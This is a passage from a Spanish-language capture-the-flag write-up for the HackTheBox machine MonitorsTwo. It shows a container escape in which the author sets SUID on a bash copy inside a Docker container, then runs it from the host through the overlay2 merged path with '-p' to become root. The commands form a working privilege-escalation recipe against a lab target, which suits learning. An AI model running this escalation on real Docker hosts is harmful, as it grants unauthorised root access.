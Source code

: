 ```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/sbin/capsh
```

Peeeero, obtenemos un error:

```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/sbin/capsh: symbol lookup error: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/sbin/capsh: undefined symbol: cap_iab_get_proc
```

Igual, por eso no nos vamos a poner tristes. Ya somos `root` en el contenedor, por lo tanto, podemos asignarle, quitarle, modificarle y de todo a cualquier archivo/objeto, por lo que asignémosle el permiso `SUID` a la `bash`, pero copiemos el binario original a una ruta nuestra y seguimos, así no dañamos la experiencia de los demás:

```bash
root@50bca5e748b0:/# cd /tmp
root@50bca5e748b0:/tmp# mkdir test
root@50bca5e748b0:/tmp# cd test/
root@50bca5e748b0:/tmp/test# cp /bin/bash .
root@50bca5e748b0:/tmp/test# chmod +s bash
root@50bca5e748b0:/tmp/test# ls -la bash
-rwsr-sr-x 1 root root 1234376 May 12 23:55 bash
```

Listones, validemos que podamos verlo desde el `host`:

```bash
marcus@monitorstwo:~$ ls -al /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test/bash
-rwsr-sr-x 1 root root 1234376 May 12 23:55 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test/bash
```

Perfectooo, el último paso para ejecutarlo con el permiso `SUID` sería agregarle el parámetro `-p`:

```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/test/bash -p
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitorstwo/539bash_marcusSH_bashSUID_container_c41d_mergedLAYER_rootSH.png" style="width: 100%;"/>

FINALMENTE, ESTAMOS EN EL SISTEMA COMO EL USUARIO `root` 😅 🥵

Brutalidad, brutalidad!

Inspeccionemos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitorstwo/539flags.png" style="width: 100%;"/>

...

Una máquina bien disfrutable, sobretodo por lo manual que fue, me gusto mucho el tema de `moby`, qué locura de escalada.
